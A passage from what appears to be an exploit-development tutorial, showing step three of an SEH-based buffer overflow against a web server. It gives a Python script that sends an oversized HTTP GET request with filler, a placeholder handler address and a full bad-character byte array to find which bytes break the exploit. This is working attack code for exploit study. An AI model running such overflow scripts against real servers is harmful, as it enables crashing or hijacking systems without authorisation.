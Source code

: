 



## 3. Enumerate the Bad Characters

Determine the bad characters set which when included causes unwanted behavior.

{% code title="sehof_bad_chars.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000

badchars = (
    b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'
    b'\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20'
    b'\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30'
    b'\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40'
    b'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50'
    b'\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60'
    b'\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70'
    b'\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80'
    b'\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90'
    b'\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0'
    b'\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0'
    b'\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0'
    b'\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0'
    b'\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0'
    b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0'
    b'\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
)
filler  = b'A' * 2499
handler = little_endian(0xd34dc0d3)
junk    = b'C' * (size - len(filler + handler + badchars))

buf = filler + handler + badchars + junk

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}
